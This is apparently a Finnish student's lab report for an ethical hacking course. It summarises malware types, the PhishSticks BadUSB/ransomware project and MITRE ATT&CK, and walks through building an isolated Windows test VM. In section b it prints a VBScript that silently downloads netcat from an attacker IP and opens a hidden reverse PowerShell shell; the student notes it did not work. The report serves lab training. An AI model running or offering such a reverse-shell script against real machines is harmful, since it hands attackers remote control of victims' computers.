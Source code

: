 # h6 Attaaack
## x) Lue/katso/kuuntele ja tiivistä
 Yehoshua and Kosayev 2021: Antivirus Bypass Techniques, luku: Chapter 1: Introduction to the Security Landscape:

Erilaiset haittaohjelmat, niiden luokkittelu päätarkoituksien mukaan.

Suojautuminen: Virustorjuntaohjelmat. Päätelaitteen havaitseminen ja toiminta (EDR = endpoint detection and response). Palomuuri. Tunkeutumisen havaitsemis ja esto ohjelmat (IDS/IPS = Intrusion detection/prevention system). Tietovuodonestojärjestelmä (DLP = Data Leak Prevention)

Kommunikaatio kohteen ja komento&hallintapalvelimen välillä reverse tai bind shellillä.

PhishSticks youtube: Flipper zeron badusb payloadin avulla reverse shell kohde koneeseen. Muut demo videot kiristysohjelmasta ja digisparkista.

PhishSticks:

- Viikko 39. Erilähteiden avulla aluksi testi skiptien löytäminen ja tekeminen sekä python kiristysohjelman teko.
- Viikko 40. Suomalainen näppämistöasetus digisparkin keyloggeriin. Python-kiritysohjelman muuntaminen suoritettavaksi tiedostoksi. 
- Viikko 41. Yhden rivin payload -> digisparkin nopeampi suoritus. Reverse shelli ja kiristysohjelma melkein valmiina.
- Viikko 43. Keyloggerin ja kiritytohjelman kehittäminen. Alustan vaihto windows -> linux ongelmien ratkaisuna. Kirjatut tiedot spostin kautta hyökkääjälle vai HTTP POST kautta?
- Viikko 44. Demoja
- Viikko 47. Suojaustoimenpiteet: Poista PowerShell käytöstä käyttäjältä. Estä PowerShell windowsin palomuurilla. Poista windows Run käytöstä käyttäjältä. Lunnasohjelmasuojaus windows defenferistä. Irrotettavien laitteiden poistaminen käytöstä. 
- Viikko 48. Hyvä esitys oli.

MITRE ATT&CK

- Taktiikat: Hyökkääjän tavoite.
- Tekniikat: Miten hyökkääjä saavuttaa tavoitteen. 
- Alitekniikat: Yksityiskohtaisemmat kuvaukset, miten tekniikoita voidaan käyttää.

MITRE Att&ck Enterprise Matrix

- Execution: Serverless Execution(palvelimeton suorittaminen): Hyökkääjät voivat väärinkäyttää palveluntarjoajien tarjoamia palvelimettomia palveluita suorittaakseen haitallista koodia pilviympäristöissä. 
- Persistence: Modify Authentication Process(tunnistautumisprosessin muuttaminen): Hyökkääjät voivat muokata tunnistautumismekanismeja ja -prosesseja päästäkseen käsiksi käyttäjätunnuksiin tai mahdollistaakseen muutoin perustelemattoman pääsyn tileihin. Tähän kohtaan on listattu monia alitekniikoita, kuten password filter DLL, Multi-factor authentication jne.

## a) The OS pwns you. Asenna Windows virtuaalikoneeseen samaan verkkoon hyökkäyskoneen kanssa. Kokeile, että saat koneen irrotettua Internetistä.
Ensiksi windows 10 asennustiedoston lataaminen https://www.microsoft.com/en-us/evalcenter/download-windows-10-enterprise. Sen jälkeen lisäsin sen virtual box alustalle.

Lisäsin uuden virtuaalikoneen virtual boxiin paimalla 'New'. Annoin sille haluamani nimen. Valitsin oikean tyypin ja version eli windows 10 ja 'Next'.
![Alt text](/H6Attaaack/kuvat/h6.a1.png)

Muistin ja prosessorien asettaminen

![Alt text](/H6Attaaack/kuvat/h6.a2.png)

Tallennustilan asettaminen ja 'finish'

![Alt text](/H6Attaaack/kuvat/h6.a3.png)

Sen jälkeen avasin virtuaalikoneen ja lisäsin siihen ladatun asennustiedoston. Windows setup aukesi ja perus setuppaaminen omien tarpeiden mukaan kieli, näppäimistö jne. 

![Alt text](/H6Attaaack/kuvat/h6.a4.png)

Kun aukeaa windowsin setup 'Which type of installation do you want?' valitsin 'Custom...'. Sen jälkeen lisää alkuasetuksia ja windows saadaan käyttöön.

![Alt text](/H6Attaaack/kuvat/h6.a6.png)

Muutamalla luodun windows virtuaalikoneen virtual boxin 'network' asetuksia seuraavasti saadaan hyökkääjän ja kohteen välille omaverkko. Pitää valita se niminen 'Host-only adapter', jossa hyökkäävä kone on kiinni.

![Alt text](/H6Attaaack/kuvat/h6.a7.png)

Nyt windows kone on irroitettu internetistä, koska sillä on vain 'Host-only adapter' käytössä.

![Alt text](/H6Attaaack/kuvat/h6.a8.png)

## b) Trustme.lnk. Kokeile PhishSticksin revshell vihamielistä tiedostoa, joka avaa käänteisen shellin hyökkääjän koneelle. Selitä, mitä tapahtuu ja miksi. Testaa, että pysyt antamaan kohdekoneelle komentoja reverse shellin kautta.
En saa toimimaan. Revsh.vsb sisältö:

    Set objShell = CreateObject("Wscript.Shell")
    ' Download netcat from attacker IP
    downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.101/nc64.exe', '%TEMP%\nc64.exe')"""
    objShell.Run downloadCmd, 0, True
    
    ' Start reverse shell
    execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '192.168.56.101', '9001', '-e', 'powershell' -WindowStyle Hidden"""
    objShell.Run execCmd, 0, True

    Set objShell = Nothing

![Alt text](/H6Attaaack/kuvat/h6.b1.png)
![Alt text](/H6Attaaack/kuvat/h6.b2.png)

## d) PageRank. Laita linkki raporttiisi (kurssisivun)[https://terokarvinen.com/2023/eettinen-hakkerointi-2023/] kommentiksi.




## lähteet
https://terokarvinen.com/2023/eettinen-hakkerointi-2023/

https://www.youtube.com/@phishsticks_pentest/videos

https://github.com/therealhalonen/PhishSticks/tree/master

https://attack.mitre.org/
